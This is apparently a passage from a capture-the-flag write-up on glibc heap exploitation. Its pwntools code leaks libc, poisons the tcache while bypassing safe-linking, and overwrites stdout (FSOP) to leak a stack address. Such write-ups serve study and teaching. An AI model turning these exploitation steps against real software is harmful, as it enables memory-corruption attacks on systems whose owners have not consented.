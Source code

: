```py
libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # offset of the unsorted bin
pwn.log.success(f"libc: {hex(libc.address)}")

stdout = libc.address + 0x21a780
environ = libc.address + 0x2a72d0 + 8
strr = libc.address + 0x1bd460

pwn.log.success(f"environ: {hex(environ)}")
pwn.log.success(f"stdout: {hex(stdout)}")

add(0, 0x100, b"YY") # pop a chunk from the tcache to let an entry left to a 
free(8) # free(a) => tcache

# unsortedbin => oob on a => tcache poisoning
add(1, 0x130, b"T"*0x108 + pwn.p64(0x111) + pwn.p64(((stdout) ^ ((heap + 0x2b90) >> 12))))
add(2, 0x100, b"TT")

# tcache => stdout
```

Then, at the next `0x100` request `stdout` will be returned! Something important to notice if you're a beginner in heap exploitation is how the safe-linking is handled, you have to xor the target location with `((chunk_location) >> 12))`. Sometimes the result is not properly aligned leading to a crash, to avoid this you can add or sub 0x8 to your target location.

## FSOP on stdout

To leak the address of the stack we can use a FSOP on stdout. To understand how a such attack does work I advice you to read my [this write-up](https://ret2school.github.io/post/catastrophe/). The goal is to read the stack address stored at `libc.sym.environ` within the libc. Which gives:

```py
# tcache => stdout
add(3, 0x100, pwn.flat(0xfbad1800, # _flags
                        libc.sym.environ, # _IO_read_ptr
                        libc.sym.environ, # _IO_read_end
                        libc.sym.environ, # _IO_read_base
                        libc.sym.environ, # _IO_write_base
                        libc.sym.environ + 0x8, # _IO_write_ptr
                        libc.sym.environ + 0x8, # _IO_write_end
                        libc.sym.environ + 0x8, # _IO_buf_base
                        libc.sym.environ + 8 # _IO_buf_end
                        )
    )

stack = pwn.u64(io.recv(8)[:-1].ljust(8, b"\x00")) - 0x160 # stackframe of fgets
pwn.log.info(f"stack: {hex(stack)}")
```

# PROFIT
